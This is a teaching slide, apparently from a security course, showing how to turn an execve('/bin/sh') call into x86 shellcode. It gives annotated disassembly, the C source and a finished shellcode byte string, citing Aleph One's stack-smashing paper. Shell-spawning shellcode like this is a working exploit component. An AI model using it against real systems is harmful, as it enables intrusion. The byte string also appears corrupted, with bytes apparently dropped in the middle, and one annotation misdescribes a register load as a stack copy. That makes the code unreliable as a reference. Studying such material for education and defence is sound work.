

# Shellcode of execve
How to develop shellcode that runs as execve(“/bin/sh”)?

0x80002bc <__execve>:   pushl  %ebp
0x80002bd <__execve+1>: movl   %esp,%ebp
0x80002bf <__execve+3>: pushl  %ebx
	The procedure prelude.

0x80002c0 <__execve+4>: movl   $0xb,%eax
	Copy 0xb (11 decimal) onto the stack. This is the 	index into the syscall table.  11 is execve.

0x80002c5 <__execve+9>: movl   0x8(%ebp),%ebx
	Copy the address of "/bin/sh" into EBX.

0x80002c8 <__execve+12>:        movl   0xc(%ebp),%ecx
	Copy the address of name[] into ECX.

0x80002cb <__execve+15>:        movl   0x10(%ebp),%edx
	Copy the address of the null pointer into %edx.

0x80002ce <__execve+18>:        int    $0x80
	Change into kernel mode.
void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
(disassembly of execve call)*

(format instructions and data as characters)*

“\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh”
*For more details, refer to Smashing the stack by aleph one